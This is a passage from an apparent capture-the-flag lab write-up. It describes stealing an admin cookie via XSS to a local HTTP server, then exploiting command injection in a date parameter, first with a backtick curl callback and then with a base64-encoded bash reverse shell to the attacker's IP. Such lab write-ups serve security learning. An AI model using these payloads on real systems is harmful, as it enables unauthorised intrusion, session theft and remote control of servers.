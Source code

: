 ```html
Accept-Language: en-US,en;q=0.9
Connection: close

fname=raccoon&lname=raccoon&email=raccoon%40raccoon.com&phone=123123&message=raccoon<>
```

Typically I try to use an img this.src fetch combo to test XSS but after testing there was an issue having spaces in the XSS of User-Agent. I opted for script and document.location instead, then calling the hack detection by using a double bracket in the message field.

```bash
sudo python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.8 - - [29/Mar/2024 00:30:38] "GET /?is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```

Well that would explain why my attempts to make valid parameters for dashboard failed. I can toss this into the Cookies section of the Storage tab within dev tools and access the dashboard now.

![admin dashboard]({{ page.img }}_5000_admin_dashboard.png)

## Command Injection

Intercepting this request reveals it sends the date parameter with a date attached. And I went out of my way to check what symbols are allowed and not allowed.

```html
date=2023-09-15

errors from:
'"|

expected response from:
/&&.,;:
```

And in my testing I decided to check using grave accents to curl my webserver.

```bash
date=1`curl+http%3a//10.10.14.5%3a8081/test`

httpserver 

Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.8 - - [29/Mar/2024 00:48:24] code 404, message File not found
10.10.11.8 - - [29/Mar/2024 00:48:24] "GET /test HTTP/1.1" 404 -
```

Revshell and we have our user.

```bash
bash -i >& /dev/tcp/10.10.14.5/7777 0>&1
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Lzc3NzcgMD4mMQ==

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Lzc3NzcgMD4mMQ==' | base64 -d | bash

date=1`echo+'YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC41Lzc3NzcgMD4mMQ%3d%3d'+|+base64+-d+|+bash`
```
